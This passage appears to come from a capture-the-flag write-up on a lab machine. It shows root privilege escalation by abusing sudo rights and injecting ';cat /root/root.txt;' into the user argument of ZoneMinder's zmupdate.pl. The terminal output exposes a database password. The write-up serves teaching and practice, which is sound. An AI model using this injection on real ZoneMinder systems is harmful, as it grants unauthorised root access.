 ```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

Moving to the suggested directory, we can find some Zoneminder service scripts, that we can use to gain access over root:

```bash
zoneminder@surveillance:/usr/bin$ ls -al | grep zm | grep .pl
ls -al | grep zm | grep .pl
-rwxr-xr-x  1 root root       43027 Nov 23  2022 zmaudit.pl
-rwxr-xr-x  1 root root       12939 Nov 23  2022 zmcamtool.pl
-rwxr-xr-x  1 root root        6043 Nov 23  2022 zmcontrol.pl
-rwxr-xr-x  1 root root       26232 Nov 23  2022 zmdc.pl
-rwxr-xr-x  1 root root       35206 Nov 23  2022 zmfilter.pl
-rwxr-xr-x  1 root root        5640 Nov 23  2022 zmonvif-probe.pl
-rwxr-xr-x  1 root root       19386 Nov 23  2022 zmonvif-trigger.pl
-rwxr-xr-x  1 root root       13994 Nov 23  2022 zmpkg.pl
-rwxr-xr-x  1 root root       17492 Nov 23  2022 zmrecover.pl
-rwxr-xr-x  1 root root        4815 Nov 23  2022 zmstats.pl
-rwxr-xr-x  1 root root        2133 Nov 23  2022 zmsystemctl.pl
-rwxr-xr-x  1 root root       13111 Nov 23  2022 zmtelemetry.pl
-rwxr-xr-x  1 root root        5340 Nov 23  2022 zmtrack.pl
-rwxr-xr-x  1 root root       18482 Nov 23  2022 zmtrigger.pl
-rwxr-xr-x  1 root root       45421 Nov 23  2022 zmupdate.pl
-rwxr-xr-x  1 root root        8205 Nov 23  2022 zmvideo.pl
-rwxr-xr-x  1 root root        7022 Nov 23  2022 zmwatch.pl
-rwxr-xr-x  1 root root       19655 Nov 23  2022 zmx10.pl
```

The most useful script is `zmupdate.pl` as it is used to update Zoneminder database and takes database credentials discovered previously. After some research and tinkering on the [source](https://github.com/ZoneMinder/ZoneMinder/blob/master/scripts/zmupdate.pl.in) of the script I've managed to use the script and command injection on user parameter, I've been able to read the root flag:

```bash
zoneminder@surveillance:/usr/bin$ sudo ./zmupdate.pl -v 1.36.31 -u ';cat /root/root.txt;'
sudo ./zmupdate.pl -v 1.36.31 -u ';cat /root/root.txt;'

Initiating database upgrade to version 1.36.32 from version 1.36.31

WARNING - You have specified an upgrade from version 1.36.31 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 


Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
y
Creating backup to /tmp/zm/zm-1.36.31.dump. This may take several minutes.
mysqldump: option '-u' requires an argument
sh: 1: -pZoneMinderPassword2023: not found
Output: 1726************************089c
Command 'mysqldump -u;cat /root/root.txt; -p'ZoneMinderPassword2023' -hlocalhost --add-drop-table --databases zm > /tmp/zm/zm-1.36.31.dump' exited with status: 127
zoneminder@surveillance:/usr/bin$ 
```
